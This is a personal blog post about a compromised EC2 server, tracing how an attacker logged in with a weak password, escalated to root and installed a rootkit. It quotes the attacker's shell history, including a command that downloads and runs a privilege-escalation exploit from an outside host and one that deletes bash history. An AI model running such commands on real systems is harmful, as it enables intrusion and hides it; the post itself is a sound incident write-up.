 ```yaml
--- 
layout: post
title: The Site Was r00ted
published: true
meta: 
  _edit_last: "2"
tags: []

type: post
status: publish
---
```

As you might know, there was a little bit of downtime… from December 28 to January 6th.  First of all, sorry about that… I was doing a bunch of holiday stuff.  At any rate, when I noticed the <a style="outline-style: none; outline-width: initial; outline-color: initial; text-decoration: none; color: #215c97; padding: 0px; margin: 0px;" href="http://aws.amazon.com/ec2/">EC2</a> instance was unresponsive, I figured it was the fault of EC2.  So, I just rebooted the instance and went on my merry way.
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">Flash forward to today.  I got on my box to do some maintenance, and saw the following warning:</p>

<pre style="padding: 0px; margin: 0px;">~/tmp$ ls
&gt; ls: unrecognized prefix: do
&gt; ls: unparsable value for LS_COLORS environment variable.</pre>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">“Well that’s weird”, I thought to myself.  I googled around the internet, and came to the conclusion I’d been rooted.  Turns out, I was right.</p>

<h2 style="margin-top: 0px; margin-right: 0px; margin-bottom: 10px; margin-left: 0px; font: normal normal bold 150%/normal Georgia, serif; padding: 0px;">Mistake #1</h2>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">Now comes the fun part of all of these.  I had to track down just *how* it happened.  First thing that I did was went to /var/log/auth.log.  I see brute force attacks all the time, and it totally fills up the logs, so I went to when made the most sense — around the time the site when down.  That’s when I noticed this entry:</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;"><code style="font: normal normal normal 120%/normal Courier, serif; padding: 0px; margin: 0px;">Dec 28 14:03:25 ip-10-251-69-178 sshd[13661]: Accepted password for deploy from 92.82.99.209 port 2608 ssh2<br style="padding: 0px; margin: 0px;" />Dec 28 14:03:25 ip-10-251-69-178 sshd[13661]: pam_unix(sshd:session): session opened for user deploy by (uid=0)</code></p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">*slap*</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">I had forgotten I created a mostly temporary user named “deploy” with a weak password (umm… “deploy”).  I thought it would be ok since that user had very little permissions — files I didn’t care about, no sudo access, etc.  Boy, was I wrong.  Which brings me to…</p>

<h2 style="margin-top: 0px; margin-right: 0px; margin-bottom: 10px; margin-left: 0px; font: normal normal bold 150%/normal Georgia, serif; padding: 0px;">Mistake #2</h2>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">Everyone always says keep your system up to date.  I also think it’s a good practice.  But do I?  Of course not.  I was using an outdated (non-updated) version of Ubuntu 8.10.  Put yourself in the hax0rs shoes: if you were breaking into a box, had user access, the os was out of date, and you wanted root, how would you do it?  A rootkit, of course!  And that’s exactly what happened…</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;"><code style="font: normal normal normal 120%/normal Courier, serif; padding: 0px; margin: 0px;">w<br style="padding: 0px; margin: 0px;" />uname -a<br style="padding: 0px; margin: 0px;" />id<br style="padding: 0px; margin: 0px;" />sudo su<br style="padding: 0px; margin: 0px;" />ls -a<br style="padding: 0px; margin: 0px;" />cat .bash_history<br style="padding: 0px; margin: 0px;" />cat /proc/cpuinfo<br style="padding: 0px; margin: 0px;" />cat /etc/issue<br style="padding: 0px; margin: 0px;" />cat /etc/hosts<br style="padding: 0px; margin: 0px;" />wget http://members.lycos.co.uk/timisoara/l3.tar.gz;tar zxvf l3.tar.gz;cd linux-sendpage3;chmod 777 *;./run;id<br style="padding: 0px; margin: 0px;" />ls -a<br style="padding: 0px; margin: 0px;" />rm -rf .bash_history<br style="padding: 0px; margin: 0px;" />wget http://members.lycos.co.uk/timisoara/l3.tar.gz;tar zxvf l3.tar.gz;cd linux-sendpage3;chmod 777 *;./run;id<br style="padding: 0px; margin: 0px;" />sudo su -</code></p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">A little sidenote… if he removed the bash_history, how did I get this command history?  Look closely… whatever script it was, it “cd”ed into the linux-sendpage3 directory before it rm’ed the bash_history.  Sucka  :) .  Anyways, there’s the rootkit, and him logging in as root with “sudo su -”.</p>

<h2 style="margin-top: 0px; margin-right: 0px; margin-bottom: 10px; margin-left: 0px; font: normal normal bold 150%/normal Georgia, serif; padding: 0px;">He was root.  OMG!</h2>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">The next part seems kind of fuzzy to me as to what he did.  I didn’t have any logs (root’s bash_history was clean), and there were no logs anywhere else on the system.  What I did have was one thing: ls was acting funky.  Surely he replaced it, so at least it would be a start.  Upon further inspection, it was owned by the user 122, and group messagebus.  Well, at least that’s a start!</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;"><code style="font: normal normal normal 120%/normal Courier, serif; padding: 0px; margin: 0px;">root@ip-10-251-69-178:~/bin# find / -user 122<br style="padding: 0px; margin: 0px;" />/usr/bin/pstree<br style="padding: 0px; margin: 0px;" />/usr/bin/top<br style="padding: 0px; margin: 0px;" />/usr/bin/md5sum<br style="padding: 0px; margin: 0px;" />/usr/bin/find<br style="padding: 0px; margin: 0px;" />/bin/ps<br style="padding: 0px; margin: 0px;" />/bin/ls<br style="padding: 0px; margin: 0px;" />/bin/netstat<br style="padding: 0px; margin: 0px;" />/sbin/ttyload<br style="padding: 0px; margin: 0px;" />/sbin/ttymon<br style="padding: 0px; margin: 0px;" />/sbin/ifconfig</code></p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">It looks like he changed a bunch of important files here, he certainly didn’t want me snooping into what he was doing.  Those modifications hid all the files and processes he was using, of course.  So my next step was to restore those files so I could dig deeper into what was going on.  With EC2, that’s a piece of cake — I fired up another Ubuntu 8.10 ami, and copied over the binaries.  Here’s where I got bottlenecked… I was getting some silly “Permission denied” error, even though I was root!  lsattr to the rescue.</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;"><code style="font: normal normal normal 120%/normal Courier, serif; padding: 0px; margin: 0px;">root@ip-10-251-69-178:~/bin# lsattr /bin/ls<br style="padding: 0px; margin: 0px;" />s---ia------------- /bin/ls</code></p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">Super-secret permissions!  no!</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;"><code style="font: normal normal normal 120%/normal Courier, serif; padding: 0px; margin: 0px;">root@ip-10-251-69-178:~/bin# chattr -sia /bin/ls; mv /tmp/ls.fix /bin/ls<br style="padding: 0px; margin: 0px;" /></code></p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">Whew, that was a close one.</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">Next, I ran the ‘find’ command to see if other files had shown up, and indeed they did.  Two directories — “/usr/lib/libsh” and “/lib/libsh.so” were owned by this guy.  There were a few utility scripts in these directories to clean logs and such, and also some program named mirkforce — which looks like some irc bot.  So, all of this for some stupid script kiddie?  Augh, lame.</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">There were two other things that I got bored with and didn’t look into anymore — a crontab as root that executed “/dev/s/y2kupdate &gt;/dev/null” every minute (thanks for keeping my computer updated), and some dbus process that hogged a bunch of resources.</p>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">At any rate, there were two things that came out of this:</p>

<ol style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 20px; padding: 0px;">
	<li style="padding: 0px; margin: 0px;"><strong style="padding: 0px; margin: 0px;">Don’t use easy passwords.  Ever.</strong></li>
	<li style="padding: 0px; margin: 0px;"><strong style="padding: 0px; margin: 0px;">Keep your systems up-to-date.</strong></li>
</ol>
<p style="margin-top: 0px; margin-right: 0px; margin-bottom: 20px; margin-left: 0px; padding: 0px;">I’m sure this entire thing was automated, so I didn’t fear stolen information so much (not that there was any to give).  He left all my data in place, so I just ditched the whole box, fired up another EC2 instance, and was running on a fresh install of Ubuntu 9.10 in about 10 minutes.  Amazon  Web Services win again!</p>
